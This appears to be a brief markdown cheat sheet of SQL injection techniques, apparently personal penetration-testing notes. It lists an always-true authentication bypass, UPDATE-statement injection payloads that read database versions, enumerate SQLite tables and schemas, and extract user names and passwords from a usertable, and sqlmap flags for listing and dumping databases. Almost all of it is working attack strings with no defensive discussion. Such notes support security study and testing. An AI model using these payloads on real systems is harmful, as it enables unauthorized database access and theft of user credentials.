 - SQL comment: `-- -`
- SQL always true:`1' or '1'='1'-- -`
- Use burpsuite proxy to modify params in case of client side input validation
- update statement
	- ```# MySQL and MSSQL

',nickName\=@@version,email\='

# For Oracle

',nickName\=(SELECT banner FROM v$version),email\='

# For SQLite

',nickName\=sqlite\_version(),email\='```
	- `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='`
	- `',nickName=(SELECT sql FROM sqlite\_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='`
	- `',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='`
- `sqlmap -u <url -w param>`
	- `-b` grab the banner 
	- `-tables` list tables
	- `--current-db <db>` set database to query
	- `--dump` dump table
	- `--technique` technique to use
		-   `B`: Boolean-based blind
		-   `E`: Error-based
		-   `U`: Union query-based
		-   `S`: Stacked queries
		-   `T`: Time-based blind
		-   `Q`: Inline queries
	-   `-dbs` list databases
	-   `-tables` list tables
	-   `-T <table>` table to use
	-   `-D <dbs>` database to use
	-   `-columns` list columns
	-   `-C  <column1,column2>`